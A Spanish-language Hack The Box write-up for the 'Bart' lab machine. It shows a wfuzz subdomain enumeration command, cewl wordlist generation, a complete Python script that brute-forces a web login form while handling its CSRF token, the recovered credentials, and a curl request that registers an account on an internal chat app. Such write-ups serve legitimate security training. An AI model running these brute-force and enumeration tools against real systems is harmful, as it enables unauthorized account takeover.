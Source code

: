 # Bart-HTB

## NMAP 

![image](https://github.com/gecr07/Bart-HTB/assets/63270579/2d9d0c51-4e1f-49f5-a613-c08cf759eedf)

Ponermos en el hosts el subdominio "http://forum.bart.htb/"  Si vemos la pagina tiene varios usuarios (moraleja siempre revisa los comentatios html <!-- )

![image](https://github.com/gecr07/Bart-HTB/assets/63270579/1cc0bd8a-0fcd-4f13-bf6e-8a1939bdd22e)



## WFUZZ 

Vamos a enumerar en busca de otros subdominios

```bash
 wfuzz -c -t 200  --hc=302,404 -w /usr/share/seclists/Discovery/DNS/deepmagic.com-prefixes-top50000.txt -H "Host: FUZZ.bart.htb"  http://10.129.96.185/

```

Encontramos un subdominio nuevo "monitor"


![image](https://github.com/gecr07/Bart-HTB/assets/63270579/cc964f92-3d61-49a5-b8a0-419bf0651268)

Si lo revisamos no encontre nada entonces lo que se me ocurre es un ataque de fuerza bruta....

## CEWL

Esto sirve para crear diccionarios en base a las mismas palabras de la pagina.

```bash
cewl -w cewl-forum.txt -e -a http://forum.bart.htb

‐e, ‐‐email
                     Include email addresses.

 ‐a, ‐‐meta
                     Include meta data.


```


### TR Mayusculas a Minusculas

Para cambiar de mayusculas a minuculas

```bash
tr '[:upper:]' '[:lower:]'
```


## Brute Force Alternativa a cosas como Hydra

Esto es una alternativa a hydra para hacer brute force lo que si falta es ponerle hilos para que vaya mas rapido

```python
#!/usr/bin/python3

import requests, pdb, sys, time, re, signal
import urllib3, threading


def def_handler(sig, frame):
        print("\n\n[!] Saliendo...\n")
        sys.exit(1)


signal.signal(signal.SIGINT, def_handler)


url = 'http://monitor.bart.htb/index.php'
burp = { 'http': 'http://127.0.0.1:8080'}



def main():
	#time.sleep(10)
	s=requests.session()
	r = s.get(url)
	#print(r.text)
	csrfToken = re.findall(r'name="csrf" value="(.*?)"',r.text)[0]
	#pdb.set_trace()# l y p para ver valores.


	with open("user.txt", "rb") as users_file:
		usuarios = [linea.decode().strip() for linea in users_file]
	with open("passwords.txt", "rb") as passwords_file:
		contraseñas = [linea.decode().strip() for linea in passwords_file]
		for usuario in usuarios:
			for contraseña in contraseñas:
				#print(f"Probando: Usuario={usuario}, Contraseña={contraseña}")
				post_data = {'csrf': csrfToken,'user_name': usuario,'user_password': contraseña,'action':'Login'}
				r = s.post(url,data=post_data,proxies=burp)
				if "The information is incorrect"  not in r.text:
					print(f"Se encontro una contraseña correcta {usuario}:{contraseña}")
		
		



if __name__ == '__main__':
	main()

```

COn el output de cewl y poniendo todo en minusculas sacamos el password

```
harvey

potter
```

![image](https://github.com/gecr07/Bart-HTB/assets/63270579/e3da1420-e251-40b5-bbf2-b5ced1ed2c9b)

Siemmpre ve si el proyecto es open source en este caso si.

![image](https://github.com/gecr07/Bart-HTB/assets/63270579/5b4852f0-526c-4c36-8e91-61fec50ae625)


Pues yo no hubiera podido ver esto solo pero si intentamos registranos de acuerdo al codigo.

![image](https://github.com/gecr07/Bart-HTB/assets/63270579/371da5fe-0627-4863-9074-ccb5c9ae1516)

```
curl -X POST http://internal-01.bart.htb/simple_chat/login_form.php -d "uname=masa&password=masa1234"
```

![image](https://github.com/gecr07/Bart-HTB/assets/63270579/aa59b77e-66eb-4861-b411-2756aabec176)

![image](https://github.com/gecr07/Bart-HTB/assets/63270579/3ac269b9-79e1-40b5-8f32-24b3c626d805)



















































